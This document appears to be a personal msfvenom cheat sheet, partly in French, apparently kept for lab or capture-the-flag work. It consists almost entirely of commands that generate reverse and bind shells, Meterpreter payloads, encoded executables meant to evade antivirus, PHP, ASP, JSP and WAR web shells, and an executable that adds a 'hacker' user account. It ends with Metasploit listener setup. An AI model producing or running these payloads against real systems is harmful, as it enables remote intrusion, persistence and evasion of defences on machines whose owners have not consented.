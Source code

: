 # msfvenom

## shellcode python:

msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\n.exe -e cmd.exe 10.10.14.23 443' -b "\x00\x0a\x0d" -f py -v payload

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 -b "\x00" -f py

## old school:
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.1.214 LPORT=10443 -f exe -o myshell.exe

## lister les payloads:
msfvenom --l payloads

## lister les encoders
msfvenom -l encoders

## raw
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=80 -f hex
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 -f c

## shell WIndows:

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.18 LPORT=443 -f exe > rshell443.exe

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=80 -f dll > my.dll

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.18 LPORT=443 -e cmd/powershell_base64 -i 5 -f exe > rshell443.exe

msfvenom -p windows/shell_hidden_bind_tcp ahost=10.10.14.3 LPORT=443 -e cmd/powershell_base64 -i 5 -f exe > rshell443.exe


## shell Linux
msfvenom -p linux/x64/shell/reverse_tcp RHOST=10.10.14.18 LPORT=443 -f elf > term.elf

## msfvenom:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=10443 -f exe > m10443.exe



## memento:

Linux Meterpreter Reverse Shell
 msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf
 
Linux Bind Meterpreter Shell
 msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > bind.elf
 
Linux Bind Shell
 msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf
 
Windows Meterpreter Reverse TCP Shell
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
 
Windows Reverse TCP Shell
 msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
 
Windows Encoded Meterpreter Windows Reverse Shell
 msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
Mac Reverse Shell
 msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > shell.macho
Mac Bind Shell
 msfvenom -p osx/x86/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f macho > bind.macho
Web Payloads
PHP Meterpreter Reverse TCP
 msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
 cat shell.php | pbcopy && echo ‘<?php ‘ | tr -d ‘\n’ > shell.php && pbpaste >> shell.php
ASP Meterpreter Reverse TCP
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp
JSP Java Meterpreter Reverse TCP
 msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
WAR
 msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
Scripting Payloads
 
 Python Reverse Shell
 msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
Bash Unix Reverse Shell
 msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
Perl Unix Reverse shell
 msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
Shellcode
Windows Meterpreter Reverse TCP Shellcode
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
Linux Meterpreter Reverse TCP Shellcode
 msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
Mac Reverse TCP Shellcode
 msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
Create User
 msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe


Metasploit Handler
use exploit/multi/handler
 set PAYLOAD <Payload name>
 Set RHOST <Remote IP>
 set LHOST <Local IP>
 set LPORT <Local Port>
 Run


